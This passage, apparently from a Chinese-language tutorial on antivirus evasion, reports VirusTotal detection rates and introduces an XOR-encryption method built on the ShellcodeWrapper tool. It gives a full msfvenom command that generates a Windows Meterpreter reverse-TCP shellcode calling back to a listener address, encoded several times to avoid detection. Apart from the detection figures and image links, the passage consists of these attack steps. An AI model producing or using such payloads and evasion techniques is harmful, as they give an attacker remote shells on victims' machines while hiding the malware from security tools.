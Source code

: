 ![40522e146d492f67874ea920e53808a2](images/2020.04-bypass-05/13.png)

virustotal.com中18/69个报毒

![bdbe16861fc9cd521482a75f2a063bd6](images/2020.04-bypass-05/14.png)

## 2.5 方法5：xor加密(VT免杀率19/71)

这个和专题27中的方法6一样，需要使用一个工具`https://github.com/Arno0x/ShellcodeWrapper`

先用msfvenom生成一个raw格式的shellcode
```
msfvenom -p  windows/meterpreter/reverse_tcp -e x86/shikata_ga_nai -i 6 -b '\x00' lhost=10.211.55.2 lport=3333  -f raw > shellcode.raw
```
